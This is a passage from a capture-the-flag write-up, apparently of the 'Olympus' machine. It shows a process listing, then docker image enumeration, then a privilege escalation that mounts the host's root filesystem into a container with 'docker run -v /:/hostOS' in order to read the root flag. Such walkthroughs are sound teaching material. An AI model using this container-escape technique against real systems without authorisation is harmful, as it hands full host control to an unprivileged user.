      root      1005  0.0  0.1  51488  3636 ?        Sl   Mar17   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 2222 -container-ip 172.19.0.2 -container-port 22
      root      1018  0.0  0.1   7648  3836 ?        Sl   Mar17   0:02 docker-containerd-shim -namespace moby -workdir /var/lib/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/f00ba96171c58d55c6
      root      1022  0.0  0.1   7648  4036 ?        Sl   Mar17   0:00 docker-containerd-shim -namespace moby -workdir /var/lib/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/ce2ecb56a96ee3d95d
      root      1023  0.0  0.2   7648  4784 ?        Sl   Mar17   0:00 docker-containerd-shim -namespace moby -workdir /var/lib/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/620b296204a38a1bc2
      systemd+  1058  0.0  1.2 289576 24668 ?        Ssl  Mar17   0:17 /usr/sbin/named -g -c /etc/bind/named.conf -u bind
      root      1067  0.0  0.9 175340 20136 ?        Ss   Mar17   0:02 apache2 -DFOREGROUND
      root      1077  0.0  0.2  65504  6004 ?        Ss   Mar17   0:00 /usr/sbin/sshd -D
      root      1756  0.0  0.0      0     0 ?        S    01:02   0:00 [kworker/1:2]
      root      1831  0.0  0.0      0     0 ?        S    01:32   0:00 [kworker/0:0]
      www-data  1832  0.0  0.6 175640 13272 ?        S    01:36   0:00 apache2 -DFOREGROUND
      www-data  1834  0.0  0.6 175648 13276 ?        S    01:36   0:00 apache2 -DFOREGROUND
      www-data  1851  0.0  0.6 175632 13264 ?        S    01:36   0:00 apache2 -DFOREGROUND
      www-data  1865  0.0  0.6 175768 13424 ?        S    01:36   0:00 apache2 -DFOREGROUND
      www-data  1871  0.0  0.6 175640 13272 ?        S    01:36   0:00 apache2 -DFOREGROUND
      www-data  1873  0.0  0.6 175640 13272 ?        S    01:37   0:00 apache2 -DFOREGROUND
      www-data  1874  0.0  0.6 175768 13644 ?        S    01:37   0:00 apache2 -DFOREGROUND
      www-data  1878  0.0  0.6 175768 13436 ?        S    01:37   0:00 apache2 -DFOREGROUND
      www-data  1881  0.0  0.6 175632 13264 ?        S    01:37   0:00 apache2 -DFOREGROUND
      www-data  1888  0.0  0.6 175640 13272 ?        S    01:37   0:00 apache2 -DFOREGROUND
      root      1895  0.0  0.0      0     0 ?        S    02:01   0:00 [kworker/1:1]
      root      1949  0.0  0.3  90476  6588 ?        Ss   02:36   0:00 sshd: icarus [priv]
      prometh+  1953  0.0  0.1  90476  3272 ?        S    02:36   0:00 sshd: icarus@pts/0
      prometh+  1954  0.0  0.1  18240  3428 pts/0    Ss+  02:36   0:00 -bash
      root      1969  0.0  0.0      0     0 ?        S    02:49   0:00 [kworker/0:1]
      root      1976  0.0  0.0      0     0 ?        S    02:54   0:00 [kworker/0:2]
      root      1985  0.0  0.3  99336  7108 ?        Ss   02:55   0:00 sshd: prometheus [priv]
      prometh+  1987  0.0  0.3  65036  6176 ?        Ss   02:55   0:00 /lib/systemd/systemd --user
      prometh+  1988  0.0  0.0  84576  1632 ?        S    02:55   0:00 (sd-pam)
      prometh+  1993  0.0  0.1  99336  4020 ?        S    02:55   0:00 sshd: prometheus@pts/0
      prometh+  1994  0.0  0.2  21192  4996 pts/0    Ss   02:55   0:00 -bash
      prometh+  2010  0.0  0.1  38304  3288 pts/0    R+   02:58   0:00 ps auxw
    
    

Here we are hinted towards docker running on the box, so let's enumerate it : 
    
    
      prometheus@olympus:~$ docker images
      REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
      crete               latest              31be8149528e        23 months ago       450MB
      olympia             latest              2b8904180780        23 months ago       209MB
      rodhes              latest              82fbfd61b8c1        23 months ago       215MB
    

We know about crete, but we don't know about olympia yet so let's try to get a shell in it's docker image : 
    
    
      prometheus@olympus:~$ docker run --rm -i -t -v /:/hostOS olympia /bin/bash
      root@72fd5d0030ac:/# uname -a
      Linux 72fd5d0030ac 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) x86_64 x86_64 x86_64 GNU/Linux
      root@72fd5d0030ac:/# whoami
      root
      root@72fd5d0030ac:/# cat /root/root.txt
      cat: /root/root.txt: No such file or directory
    
    

And we have root access to this docker image ! however root.txt isn't where it should be so let's poke around a little further: 
    
    
      root@72fd5d0030ac:/# cd /
      root@72fd5d0030ac:/# ls
      bin  boot  dev  etc  home  hostOS  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
      root@72fd5d0030ac:/# cd hostOS
      root@72fd5d0030ac:/hostOS# ls
      bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
      root@72fd5d0030ac:/hostOS# cd root
      root@72fd5d0030ac:/hostOS/root# ls
      root.txt
      root@72fd5d0030ac:/hostOS/root# cat root.txt
      abXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And there we have it ! we have been able to print the root flag that was oddly placed in the /hostOS/root/ directory.

## **Conclusion**

Here we can see the progress graph :

